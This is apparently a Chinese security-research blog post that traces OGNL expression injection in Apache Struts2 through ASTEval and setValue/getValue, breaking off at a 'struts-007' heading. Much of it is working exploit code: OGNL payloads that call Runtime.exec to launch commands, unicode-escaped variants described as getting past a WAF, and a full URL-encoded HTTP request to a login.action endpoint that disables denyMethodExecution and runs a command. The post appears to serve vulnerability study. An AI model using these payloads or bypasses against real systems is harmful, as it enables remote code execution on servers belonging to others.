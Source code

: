 跟一下流程，<br />此时的解析表达式成了ASTEval了，<br />![微信截图_20230805182416.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691231062973-8f7f523a-61a0-43cf-9e15-6bf9f8611a51.png#averageHue=%232d2c2c&clientId=udb598b9c-1cb3-4&from=paste&height=273&id=u5fd691e0&originHeight=341&originWidth=1365&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=58082&status=done&style=none&taskId=u6e142454-5e75-4900-824b-55eed2dbfaf&title=&width=1092)<br />主要看一下ASTEval的getValueBody方法，expr获得了第一个()里面的内容。<br />source获得第二个里面的内容。<br />然后解析了expr，并将node转成了ASTChain解析器。<br />后面触发getvalue。

不过setvalue貌似不太行，
```java
String expression="('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='calc')";
        //解析表达式
        Object ognl= Ognl.parseExpression(expression);
        Ognl.setValue(ognl,(Map) new HashMap<>(),(Object)null);
```
![微信截图_20230805222238.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691245365006-ce7e21c5-9661-4c57-8e34-460685467e8a.png#averageHue=%232d2c2b&clientId=udb598b9c-1cb3-4&from=paste&height=218&id=u4d21d484&originHeight=273&originWidth=1195&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36373&status=done&style=none&taskId=uea47f9ef-ef00-4e79-92b9-1962b7a2f8d&title=&width=956)<br />之前循环的是children.length-1;本地改一下报错，但是还是可以弹计算器的。

主要是由于ASTMethod没有setValue这个方法，![微信截图_20230805222830.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691245715943-5fe2e760-3aa1-491d-a3b1-d8e3ec8e041a.png#averageHue=%232b2b2b&clientId=udb598b9c-1cb3-4&from=paste&height=222&id=ucd91861e&originHeight=278&originWidth=1123&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=19286&status=done&style=none&taskId=uaba58308-74b0-4466-b224-05a16f69ea1&title=&width=898.4)<br />调用了node的setValue。<br />但在调用setValue之前，是有调用getvalue的。<br />那就想办法利用这个getValue。<br />之前调用getValue执行的是@java.lang.Runtime@'+'getRuntime().exec(#aa)。<br />![3.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691245982419-f18d93cd-dcfe-4672-8afa-c88bf6a87459.png#averageHue=%23544f43&clientId=udb598b9c-1cb3-4&from=paste&height=912&id=ue55f2419&originHeight=1140&originWidth=2800&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=393222&status=done&style=none&taskId=ue30e5ab9-0c3d-45da-8f71-0679790a367&title=&width=2240)<br />这里去触发getvalue就好了，<br />![8.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691246590352-d85a9c1f-9ea2-47b2-8834-32992c69178f.png#averageHue=%232b2b2a&clientId=udb598b9c-1cb3-4&from=paste&height=498&id=u38f9b335&originHeight=622&originWidth=1780&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=376664&status=done&style=none&taskId=u89ea273e-fb51-4450-a211-2c5313fce13&title=&width=1424)<br />可以选择如下payload
```java
Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```
```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='calc')('Enterpr1se')");
```
<a name="udf20"></a>
## 绕waf
![微信截图_20230805225041.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1691247046866-620a2ee2-2e94-4ede-a741-9edaa2046941.png#averageHue=%232d2c2b&clientId=udb598b9c-1cb3-4&from=paste&height=218&id=uff309ed1&originHeight=273&originWidth=1101&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=19342&status=done&style=none&taskId=ufb24cd3e-4193-427b-80be-2ce877aefa6&title=&width=880.8)<br />限制了一些字符，<br />可以使用unicode 读到\\u，会再读取四个字符。
```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'calc')('')
```

一些更强大的绕法：
```java
http://127.0.0.1:9090/login.action?(%27%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(abc)(def)&('%5Cu0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'calc')('Enterpr1se')
```
<a name="nOulL"></a>
# struts-007
限制了age的长度为150以内，且为int。
